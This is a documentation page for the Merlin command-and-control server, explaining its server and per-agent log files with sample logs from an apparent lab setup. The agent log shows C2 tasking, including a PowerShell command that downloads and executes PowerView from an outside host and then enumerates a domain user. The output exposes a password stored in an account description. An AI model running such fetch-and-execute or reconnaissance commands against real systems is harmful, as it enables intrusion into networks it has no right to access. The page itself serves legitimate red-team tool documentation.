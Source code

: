 #######
Logging
#######

Server
------

Merlin creates a log of server activities that are saved at ``data/log/merlinServerLog.txt``.
An example of the server log file:

.. code-block:: html

    [2017-12-17 03:25:31.601752218 +0000 UTC m=+0.001463384]Starting Merlin Server
    [2017-12-17 03:25:31.609125184 +0000 UTC m=+0.008836420]Starting HTTP/2 Listener
    [2017-12-17 03:25:31.609148289 +0000 UTC m=+0.008859410]Address: 0.0.0.0:443/
    [2017-12-17 03:25:31.609156804 +0000 UTC m=+0.008867860]x.509 Certificate /opt/merlin/data/x509/server.crt
    [2017-12-17 03:25:31.609163552 +0000 UTC m=+0.008874620]x.509 Key /opt/merlin/data/x509/server.key
    [2017-12-17 03:26:07.101079056 +0000 UTC m=+35.500790466]Received new agent checkin from 209342db-ce7c-49e8-883f-0ee4da7d266d
    [2017-12-17 03:26:11.560452462 +0000 UTC m=+39.960164571]Received new agent checkin from 6e5e8a3b-42fd-4129-8f02-be04b935d252
    [2017-12-17 03:26:18.078416725 +0000 UTC m=+46.478128025]Received new agent checkin from 13c8bd9b-dc8e-4fa9-83d0-58c7cff8903d
    [2017-12-17 03:30:58.634935594 +0000 UTC m=+327.034647953]Shutting down Merlin Server due to user input


Agent
-----

When an agent checks in to Merlin, a directory is created for it based on the Agent's UUID in the ``data/agents`` directory. A log file of agent activity is created in the new directory in the ``agent_log.txt`` file.

An example of the ``data/agents/209342db-ce7c-49e8-883f-0ee4da7d266d/agent_log.txt`` file:

.. code-block:: html

    [2017-12-17 03:26:07.10226105 +0000 UTC m=+35.501972326]Initial check in for agent 209342db-ce7c-49e8-883f-0ee4da7d266d
    [2017-12-17 03:26:07.10246555 +0000 UTC m=+35.502176856]Platform: windows
    [2017-12-17 03:26:07.10249271 +0000 UTC m=+35.502203956]Architecture: amd64
    [2017-12-17 03:26:07.10256092 +0000 UTC m=+35.502272320]HostName: WIN10
    [2017-12-17 03:26:07.102590307 +0000 UTC m=+35.502301630]UserName: XCALIBUR\dade
    [2017-12-17 03:26:07.102640064 +0000 UTC m=+35.502351353]UserGUID: S-1-5-21-4268310007-4003891068-3852045410-513
    [2017-12-17 03:26:07.10265651 +0000 UTC m=+35.502367750]Process ID: 2776
    [2017-12-17 03:26:07.132149253 +0000 UTC m=+35.531861089]Processing AgentInfo message:
            Agent Version: 0.1.3
            Agent Build: 6a1723b180583deff56b41a9d2a283244837b611
            Agent waitTime: 30s
            Agent paddingMax: 4096
            Agent maxRetry: 7
            Agent failedCheckin: 0
    [2017-12-17 03:26:37.254087469 +0000 UTC m=+65.653799302]Agent status check in
    [2017-12-17 03:27:07.395670309 +0000 UTC m=+95.795382065]Agent status check in
    [2017-12-17 03:27:37.533895458 +0000 UTC m=+125.933607084]Agent status check in
    [2017-12-17 03:27:37.537462734 +0000 UTC m=+125.937175076]Command Type: control
    [2017-12-17 03:27:37.537593821 +0000 UTC m=+125.937305610]Command: [sleep 13s]
    [2017-12-17 03:27:37.537786944 +0000 UTC m=+125.937498617]Created job vPIDreMwkF for agent 209342db-ce7c-49e8-883f-0ee4da7d266d
    [2017-12-17 03:27:37.571990967 +0000 UTC m=+125.971702752]Processing AgentInfo message:
            Agent Version: 0.1.3
            Agent Build: 6a1723b180583deff56b41a9d2a283244837b611
            Agent waitTime: 13s
            Agent paddingMax: 4096
            Agent maxRetry: 7
            Agent failedCheckin: 0
    [2017-12-17 03:27:50.69824483 +0000 UTC m=+139.097956473]Agent status check in
    [2017-12-17 03:28:03.822906318 +0000 UTC m=+152.222618134]Agent status check in
    [2017-12-17 03:28:03.824745772 +0000 UTC m=+152.224457054]Command Type: cmd
    [2017-12-17 03:28:03.824787835 +0000 UTC m=+152.224499144]Command: [powershell "Get-NetAdapter|fl"]
    [2017-12-17 03:28:03.824874938 +0000 UTC m=+152.224586324]Created job cwDwWifPqR for agent 209342db-ce7c-49e8-883f-0ee4da7d266d
    [2017-12-17 03:28:06.474940051 +0000 UTC m=+154.874651976]Results for job: cwDwWifPqR
    [2017-12-17 03:28:06.478391949 +0000 UTC m=+154.878103211]Command Results (stdout):


    Name                       : Ethernet0
    InterfaceDescription       : Intel(R) 82574L Gigabit Network Connection
    InterfaceIndex             : 9
    MacAddress                 : 00-0C-29-96-04-66
    MediaType                  : 802.3
    PhysicalMediaType          : 802.3
    InterfaceOperationalStatus : Up
    AdminStatus                : Up
    LinkSpeed(Gbps)            : 1
    MediaConnectionState       : Connected
    ConnectorPresent           : True
    DriverInformation          : Driver Date 2016-04-05 Version 12.15.22.6 NDIS 6.30


    [2017-12-17 03:28:19.614829305 +0000 UTC m=+168.014540881]Agent status check in
    [2017-12-17 03:28:32.748204051 +0000 UTC m=+181.147915670]Agent status check in
    [2017-12-17 03:28:32.750120781 +0000 UTC m=+181.149832134]Command Type: cmd
    [2017-12-17 03:28:32.750162232 +0000 UTC m=+181.149873581]Command: [powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Get-NetUser -Username dade"]
    [2017-12-17 03:28:32.750301452 +0000 UTC m=+181.150012674]Created job GMKxTcvWhH for agent 209342db-ce7c-49e8-883f-0ee4da7d266d
    [2017-12-17 03:28:35.105745057 +0000 UTC m=+183.505457853]Results for job: GMKxTcvWhH
    [2017-12-17 03:28:35.108203423 +0000 UTC m=+183.507915165]Command Results (stdout):


    logoncount                    : 12
    badpasswordtime               : 12/10/2017 9:08:24 AM
    description                   : Intentionally Vulnerable;Password: Winter2017
    distinguishedname             : CN=Dade D. Murphy,CN=Users,DC=xcalibur,DC=io
    objectclass                   : {top, person, organizationalPerson, user}
    dscorepropagationdata         : 1/1/1601 12:00:00 AM
    displayname                   : Dade D. Murphy
    lastlogontimestamp            : 12/10/2017 9:14:44 AM
    userprincipalname             : dade@xcalibur.io
    name                          : Dade D. Murphy
    primarygroupid                : 513
    objectsid                     : S-1-5-21-4268310007-4003891068-3852045410-1116
    samaccountname                : dade
    lastlogon                     : 12/16/2017 6:19:58 PM
    codepage                      : 0
    samaccounttype                : 805306368
    whenchanged                   : 12/10/2017 5:14:44 PM
    accountexpires                : 9223372036854775807
    cn                            : Dade D. Murphy
    adspath                       : LDAP://CN=Dade D. Murphy,CN=Users,DC=xcalibur,DC=io
    instancetype                  : 4
    objectguid                    : 662a2b05-8397-41d4-bfdb-b0bd6df3615b
    sn                            : Murphy
    lastlogoff                    : 12/31/1600 4:00:00 PM
    objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=xcalibur,DC=io
    initials                      : D
    givenname                     : Dade
    whencreated                   : 10/6/2017 12:21:27 AM
    badpwdcount                   : 0
    useraccountcontrol            : 66048
    usncreated                    : 12889
    countrycode                   : 0
    pwdlastset                    : 10/5/2017 5:21:27 PM
    msds-supportedencryptiontypes : 0
    usnchanged                    : 20645

    [2017-12-17 03:28:48.250330562 +0000 UTC m=+196.650042428]Agent status check in
    [2017-12-17 03:29:01.387319268 +0000 UTC m=+209.787031394]Agent status check in
    [2017-12-17 03:29:14.519431017 +0000 UTC m=+222.919142466]Agent status check in
    [2017-12-17 03:29:27.640031072 +0000 UTC m=+236.039742618]Agent status check in
    [2017-12-17 03:29:40.75826363 +0000 UTC m=+249.157975111]Agent status check in
    [2017-12-17 03:29:53.90008421 +0000 UTC m=+262.299796006]Agent status check in
    [2017-12-17 03:30:07.04774827 +0000 UTC m=+275.447460262]Agent status check in
    [2017-12-17 03:30:20.178747286 +0000 UTC m=+288.578458632]Agent status check in
    [2017-12-17 03:30:33.306429632 +0000 UTC m=+301.706141394]Agent status check in
    [2017-12-17 03:30:46.426827382 +0000 UTC m=+314.826539174]Agent status check in
    [2017-12-17 03:30:46.428641549 +0000 UTC m=+314.828352838]Command Type: kill
    [2017-12-17 03:30:46.428684456 +0000 UTC m=+314.828395838]Command: []
    [2017-12-17 03:30:46.428732519 +0000 UTC m=+314.828443952]Created job yRZdBkCXAf for agent 209342db-ce7c-49e8-883f-0ee4da7d266d
